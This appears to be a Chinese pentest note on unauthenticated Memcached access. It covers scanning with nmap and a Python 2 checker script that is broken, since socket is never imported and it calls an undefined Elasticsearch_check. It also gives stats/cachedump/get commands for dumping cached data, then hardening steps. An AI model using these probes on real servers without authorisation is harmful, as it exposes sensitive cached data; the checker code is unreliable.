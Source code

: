 Memcache未授权访问
==================

一、漏洞简介
------------

> memcached是一套分布式的高速缓存系统。它以Key-Value（键值对）形式将数据存储在内存中，这些数据通常是应用读取频繁的。正因为内存中数据的读取远远大于硬盘，因此可以用来加速应用的访问。

二、影响范围
------------

三、复现过程
------------

#### 1.扫描探测

    nmap -sV -p 11211 --script memcached-info 0.0.0.0

![](./.resource/Memcache未授权访问/media/rId25.png)

    ##! /usr/bin/env python
    ## _*_  coding:utf-8 _*_
    def Memcache_check(ip, port=11211, timeout=5):
        try:
            socket.setdefaulttimeout(timeout)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, int(port)))
            s.send("stats\r\n")
            result = s.recv(1024)
            if "STAT version" in result:
                print '[+] Memcache Unauthorized: ' +ip+':'+str(port)
        except Exception, e:
            pass
    if __name__ == '__main__':
        Elasticsearch_check("127.0.0.1")

#### 2.攻击利用

##### 2.1 基础部分

通过一个cheat
sheet了解一下Memcached的协议。Memcached的语法由如下元素组成

-   {COMMAND}0x20{ARGUMENT}(LF\|CRLF)

command字段有如下几条命令

-   存储操作(set, add, replace, append, prepend, cas)

-   检索操作 (get, gets)

-   删除操作 (delete)

-   增减操作 (incr, decr)

-   touch

-   slabs reassign

-   slabs automove

-   lru\_crawler

-   统计操作(stats items, slabs, cachedump)

-   其他操作 (version, flush\_all, quit)

  Command        描述                实例
  -------------- ------------------- --------------------
  get            读某个值            get mykey
  set            强制设置某个键值    set mykey 0 60 5
  add            添加新键值对        add newkey 0 60 5
  replace        覆盖已经存在的key   replace key 0 60 5
  flush\_all     让所有条目失效      flush\_all
  stats          打印当前状态        stats
  stats malloc   打印内存状态        stats malloc

version \| 打印Memcached版本 \| version

    stats  //查看memcache 服务状态
    stats items  //查看所有items
    stats cachedump 32 0  //获得缓存key
    get :state:264861539228401373:261588   //通过key读取相应value ，获得实际缓存内容，造成敏感信息泄露

#### 2.2 建立连接并获取信息

telnet 11211，或 nc -vv 11211，无需用户名密码，可以直接连接memcache
服务的11211端口。

![](./.resource/Memcache未授权访问/media/rId29.png) 附赠大佬写的文章
[Discuz!因Memcached未授权访问导致的RCE](https://xz.aliyun.com/t/2018)

#### 3.防范措施

##### 1.限制访问

如果memcache没有对外访问的必要，可在memcached启动的时候指定绑定的ip地址为
127.0.0.1。其中 -l 参数指定为本机地址。例如： memcached -d -m 1024 -u
root -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid

或者 vim /etc/sysconfig/memcached，修改配置文件 OPTIONS=\"-l
127.0.0.1\"，只能本机访问，不对公网开放，保存退出 /etc/init.d/memcached
reload

##### 2.防火墙

    // accept
    ## iptables -A INPUT -p tcp -s 127.0.0.1 --dport 11211 -j ACCEPT
    ## iptables -A INPUT -p udp -s 127.0.0.1 --dport 11211 -j ACCEPT

    // drop
    ## iptables -I INPUT -p tcp --dport 11211 -j DROP
    ## iptables -I INPUT -p udp --dport 11211 -j DROP

    // 保存规则并重启 iptables
    ## service iptables save
    ## service iptables restart

##### 3.使用最小化权限账号运行Memcached服务

使用普通权限账号运行，指定Memcached用户。

    memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid

##### 4.启用认证功能

Memcached本身没有做验证访问模块,Memcached从1.4.3版本开始，能支持SASL认证。[SASL认证详细配置手册](http://www.postfix.org/SASL_README.html?spm=a2c4g.11186623.2.5.RpKdcX##saslauthd)

##### 5.修改默认端口

修改默认11211监听端口为11222端口。在Linux环境中运行以下命令：

    memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11222 -c 1024 -P /tmp/memcached.pid

##### 6.定期升级

参考:

<http://lzone.de/cheat-sheet/memcached>

<https://www.secpulse.com/archives/49659.html>

<https://www.sensepost.com/blog/2010/blackhat-write-up-go-derper-and-mining-memcaches/>

<https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf>

<http://niiconsulting.com/checkmate/2013/05/memcache-exploit/>

<https://xz.aliyun.com/t/2018>

<http://drops.xmd5.com/static/drops/web-8987.html>

https://blog.csdn.net/microzone/article/details/79262549\<
